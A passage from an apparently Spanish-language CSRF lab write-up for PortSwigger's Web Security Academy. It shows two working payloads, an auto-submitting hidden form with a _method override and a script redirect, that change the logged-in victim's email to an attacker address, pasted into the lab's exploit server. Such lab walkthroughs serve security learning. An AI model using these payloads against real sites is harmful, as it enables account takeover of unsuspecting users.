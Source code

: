 En mi caso prefiero hacer los `payloads` de `forma manual`

```
<html>
    <body>
        <form action="https://0a1300120392b3a2822110240029009e.web-security-academy.net/my-account/change-email" method="GET">
            <input type="hidden" name="_method" value="POST">
            <input type="hidden" name="email" value="pwned@gmail.com">
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

Otra `alternativa` sería usar este otro `payload`

```
<html>
    <body>
        <script> 
            document.location = 'https://0a1300120392b3a2822110240029009e.web-security-academy.net/my-account/change-email?email=pwned@gmail.com&_method=POST';
        </script>
    </body>
</html>
```

Nos `abrimos` el `Exploit server` y pegamos cualquiera de los `payloads` anteriores

![](/assets/img/CSRF-Lab-7/image_14.png)

![](/assets/img/CSRF-Lab-7/image_15.png)
